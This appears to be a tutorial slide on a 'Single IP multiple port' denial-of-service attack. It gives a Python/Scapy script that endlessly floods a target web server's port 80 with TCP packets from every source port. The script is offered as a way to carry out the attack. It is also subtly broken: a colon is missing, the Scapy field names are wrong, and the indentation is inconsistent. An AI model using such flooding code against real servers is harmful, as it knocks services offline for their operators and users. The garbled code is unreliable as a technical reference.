

# Single IP multiple port
     A large number of packets are sent to web server by using single IP and from multiple ports. Its implementation in Python can be done with the help of Scapy. The following python script will help implement Single IP multiple port DoS attack −
    from scapy.all import *
    source_IP = input("Enter IP address of Source: ")
    target_IP = input("Enter IP address of Target: ")
    i = 1

    while True:
       for source_port in range(1, 65535)
         IP1 = IP(source_IP = source_IP, destination = target_IP)
         TCP1 = TCP(srcport = source_port, dstport = 80)
         pkt = IP1 / TCP1
         send(pkt, inter = .001)

      print ("packet sent ", i)
         i = i + 1